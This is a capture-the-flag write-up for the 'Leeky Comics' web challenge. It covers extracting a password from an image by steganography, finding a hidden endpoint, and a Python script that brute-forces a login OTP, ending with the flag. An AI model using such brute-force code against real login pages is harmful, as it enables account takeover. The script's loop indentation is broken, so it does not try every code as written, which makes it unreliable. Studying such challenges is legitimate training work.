



# Leeky Comics
> Check out Dr Leek's new comic store! 👨‍⚕️

## About the Challenge
We were given a website that will generate some images and then we can sign our input to the image


## How to Solve?
If we check the source code by pressing `Ctrl + U` there are 2 comments:

```html
<!-- If you forget the password remember that our admin hid it somewhere in the image with some random python lib -->
```

and

```html
<!-- TODO: Hide the endpoint for the artists -->
```

It looks like this some steganography challs. So I decided to download the generated image and upload it into this [website](https://stegonline.georgeom.net/upload) and then choose `Extract Data` option

The flag is hidden using the LSB steganography technique. Choose row `0` and press `Go` button



As you can see, we got 2 digit numbers and also the password

```
32:password:Mich3l@ngel0$ist1n3!511?
```

If we go to check the second HTML comment, it appears that there's another endpoint. I obtained it by guessing, and the endpoint is `/artist`.



We need to input the username (You can get it from the hints), password, and the OTP code. At first I tried to input this:

```
Username: Picasso
Password: Mich3l@ngel0$ist1n3!511
OTP Code: 32
```

But the output was `Incorrect Login`. In this case, I tried to create another python script to bruteforce the OTP code. Here is the code I used to brute the OTP code

```python
import requests

url = "https://leekycomics.ctf.intigriti.io/artist_login"

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

username = "Picasso"
password = "Mich3l@ngel0$ist1n3!511"

for char1 in characters:
    for char2 in characters:
        otp = char1 + char2
        data = {
            "username": username,
            "password": password,
            "otp": otp
        }

    response = requests.post(url, data=data, headers={'Content-Type': 'application/x-www-form-urlencoded'})

    if response.status_code == 200:
        # Print the cookies from the response
        print(f"OTP: {otp}, Cookies: {response.text}")
    else:
        print(f"OTP: {otp}, Response Status Code: {response.text}")
```

And then run the code and voilà (In this case im using grep to get the flag)



```
INTIGRITI{5up3r_53cr37_fl46_dr_l33k_r0ck5}
```